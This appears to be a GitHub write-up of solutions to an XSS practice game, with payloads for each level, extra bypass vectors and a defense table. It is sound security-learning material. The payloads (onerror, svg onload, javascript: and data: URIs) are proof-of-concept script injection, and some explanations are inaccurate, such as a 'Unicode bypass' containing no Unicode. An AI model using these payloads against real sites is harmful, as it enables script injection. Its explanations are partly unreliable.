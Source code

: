 # 🛡️ XSS Game Challenges: Comprehensive Solutions & Advanced Techniques

<!-- 
description: XSS Challenges and solutions for learning web security and bug bounty. Practice real-world XSS attacks.

keywords: XSS, Cross Site Scripting, bug bounty, cyber security, CTF, XSS challenges, XSS labs, ethical hacking, sudo.co.il ,solution ,solution of sudo.co.il
-->
<p align="center">
  <img src="https://github.com/brono4/XSS-Game-Challenges/blob/main/xss.png" alt="XSS Challenge">
</p>



## 📑 Table of Contents
- [🌐 Introduction](#-introduction)
- [🏆 Basic Challenges (Levels 1-4)](#-basic-challenges-levels-1-4)
- [🔥 Advanced Challenges (Levels 5-6)](#-advanced-challenges-levels-5-6)
- [💎 Expert Techniques](#-expert-techniques)
- [🛡️ Defense Matrix](#-defense-matrix)
- [🌟 Conclusion](#-conclusion)

---

## 🌐 Introduction

I recently completed an intensive exploration of Cross-Site Scripting (XSS) vulnerabilities through Google's renowned XSS Game. This journey took me from fundamental injection techniques to advanced bypass methods, revealing the intricate art of web context manipulation.

> "Understanding XSS is not about breaking systems - it's about mastering how browsers interpret code to build more secure applications."

Here's my complete walkthrough, ranked by difficulty and technical sophistication:

---

## 🏆 Basic Challenges (Levels 1–4)

### 🥇 Level 1: Simple Tag Injection (Difficulty: ★☆☆☆☆)

```html
<img src=1 onerror=alert(1)>
```

- **Technique**: Basic HTML tag injection with error handler execution  
- **Key Insight**: The page directly renders unsanitized input in HTML context  
- **Defense**: HTML entity encoding or proper tag filtering

---

### 🥇 Level 2: Attribute Context Breakout (Difficulty: ★☆☆☆☆)

```html
<img src=1 onerror=alert(1)>
```

- **Technique**: Reused Level 1 payload in attribute context  
- **Key Insight**: Input placed inside HTML tag attributes without sanitization  
- **Defense**: Attribute value quoting and whitelist-based sanitization

---

### 🥈 Level 3: URL Fragment Manipulation (Difficulty: ★★☆☆☆)

```html
'><img src=1 onerror=alert(1)>
```

- **Technique**: Single quote escape + tag injection  
- **Key Insight**: Breaking out of JavaScript string context into HTML  
- **Defense**: Context-aware output encoding

---

### 🥉 Level 4: JavaScript Context Escape (Difficulty: ★★★☆☆)

```html
');prompt('1
```

- **Technique**: Statement termination and new function call  
- **Key Insight**: Breaking out of string literal in JavaScript execution context  
- **Defense**: JSON encoding for dynamic JavaScript values

---

## 🔥 Advanced Challenges (Levels 5–6)

### 🏅 Level 5: Protocol Handler Exploit (Difficulty: ★★★☆☆)

```html
javascript:alert('1')
```

- **Technique**: `javascript:` URI protocol injection  
- **Key Insight**: Some contexts allow execution through navigation handlers  
- **Defense**: Strict URL validation with protocol whitelisting

---

### 🏅 Level 6: Base64 Data URL Bypass (Difficulty: ★★★★☆)

```bash
echo "alert(1)" | base64
# YWxlcnQoMSkK
```

**Payload**:

```
data:undefined;base64,YWxlcnQoMSkK
```

- **Technique**: Base64-encoded script in data URL  
- **Key Insight**: Bypassing filters through alternative execution vectors  
- **Defense**: Complete block of data URIs in sensitive contexts

---

## 💎 Expert Techniques

### 1. SVG XSS Vector

```html
<svg onload=alert(1)>
```

- **Use Case**: When standard tags are filtered but SVG is allowed

---

### 2. Unicode Bypass

```javascript
alert(1)
```

- **Use Case**: Evading basic keyword detection

---

### 3. Template Literal Exploit

```javascript
${alert(1)}
```

- **Use Case**: Breaking out of template literals

---

### 4. Document.domain Manipulation

```html
<script>document.domain=document.domain;alert(1)</script>
```

- **Use Case**: SOP bypass in some legacy configurations

---

## 🛡️ Defense Matrix

| Vulnerability Type   | Primary Defense           | Secondary Defense               |
|----------------------|---------------------------|----------------------------------|
| HTML Injection       | HTML Entity Encoding      | CSP (Content Security Policy)   |
| Attribute XSS        | Attribute Encoding         | Tag Whitelisting                |
| JavaScript Injection | JavaScript Encoding        | Trusted Types                   |
| URL-based XSS        | URL Validation             | Scheme Whitelisting             |
| DOM-based XSS        | Safe DOM APIs              | Output Encoding                 |

---

## 🌟 Conclusion

Through these challenges, I've developed a three-dimensional understanding of XSS:

- **Technical Dimension**: Mastery of injection techniques across contexts  
- **Psychological Dimension**: Thinking like both attacker and defender  
- **Ethical Dimension**: Using knowledge responsibly to improve web security

> "The best XSS protection comes not from filters, but from understanding execution contexts deeply."

This knowledge forms the foundation for advanced web security research and secure coding practices.  
The journey continues with more complex vulnerabilities and protection mechanisms!

---

### 🏁 Final Ranking of Challenge Difficulty

1. **Level 6** (★★★★☆)  
2. **Level 4** (★★★☆☆)  
3. **Level 5** (★★★☆☆)  
4. **Level 3** (★★☆☆☆)  
5. **Levels 1–2** (★☆☆☆☆)
